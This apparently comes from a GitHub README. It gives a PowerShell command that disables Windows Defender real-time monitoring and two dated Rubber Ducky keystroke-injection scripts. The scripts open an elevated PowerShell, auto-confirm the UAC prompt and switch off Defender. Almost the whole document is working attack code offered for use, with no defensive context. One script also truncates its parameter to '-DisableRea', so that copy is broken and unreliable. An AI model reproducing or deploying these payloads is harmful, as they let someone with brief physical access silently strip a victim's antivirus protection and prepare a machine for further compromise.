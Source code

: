 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

Example scripts:

_Dec 24, 2018_ 
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
ALT y
```

Note: line with "ALT y" may not be required and could lead to error in the next line.  
_Apr 23, 2018_
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```